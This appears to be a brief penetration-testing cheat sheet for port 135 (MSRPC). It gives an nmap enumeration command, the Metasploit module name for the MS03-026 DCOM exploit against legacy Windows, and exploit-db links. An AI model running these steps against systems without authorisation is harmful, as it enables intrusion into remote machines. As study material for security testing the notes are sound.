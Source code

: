 # Port 135 - MSRPC #

## Exploit
https://www.exploit-db.com/exploits/16749/
OS: Microsoft Windows NT 4.0, 2000, XP, and Server 2003)

- **Scan for vulnerability**
  
  ```bash
  nmap  --script=msrpc-enum -p 135
  ```
  
- **Exploit:**
  
  ```bash
  #in metasploit
  use exploit/windows/dcerpc/ms03_026_dcom
  ```
  
- **Another implementation**
  - https://www.exploit-db.com/exploits/100